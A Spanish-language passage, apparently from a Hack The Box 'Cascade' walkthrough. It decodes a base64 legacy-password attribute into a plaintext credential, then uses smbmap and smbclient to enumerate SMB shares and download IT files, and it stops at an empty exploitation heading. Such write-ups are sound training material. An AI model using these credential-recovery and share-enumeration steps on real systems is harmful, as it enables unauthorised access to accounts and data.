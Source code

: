 La línea que nos causa curiosidad es `cascadeLegacyPwd: clk0bjVldmE=`, así que vamos a decodificar lo anterior en base64:

```
root@kali:/home/kali# echo "clk0bjVldmE=" | base64 -d
rY4n5eva
```

### Enumeración SMB

Primero utilizaremos `smbmap` para enumerar los recursos compartido que tiene accesos el usuario `r.thomposon`

```console
root@kali:/home/kali# smbmap -u r.thompson -p rY4n5eva  -d workgroup -H 10.10.10.182
[+] IP: 10.10.10.182:445        Name: cascade.htb                                       
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share 

```

Ahora con `smbclient` accedemos a los recursos compartidos en el servidor SMB, empezamos a realizar la enumeración en los diferentes directorios de `DATA` y descargamos los siguientes archivos:

```console
root@kali:/home/kali# smbclient \\\\10.10.10.182\\DATA -U CASCADE.LOCAL/r.thompson -W workgroup 
Enter WORKGROUP\r.thompson's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jan 26 22:27:34 2020
  ..                                  D        0  Sun Jan 26 22:27:34 2020
  Contractors                         D        0  Sun Jan 12 20:45:11 2020
  Finance                             D        0  Sun Jan 12 20:45:06 2020
  IT                                  D        0  Tue Jan 28 13:04:51 2020
  Production                          D        0  Sun Jan 12 20:45:18 2020
  Temps                               D        0  Sun Jan 12 20:45:15 2020

smb: \IT\Email Archives\> get "Meeting_Notes_June_2018.html"
smb: \IT\Logs\Ark AD Recycle Bin\> get ArkAdRecycleBin.log
smb: \IT\Logs\DCs\> get dcdiag.log
smb: \IT\Temp\s.smith\> get "VNC Install.reg"
```



## Explotación
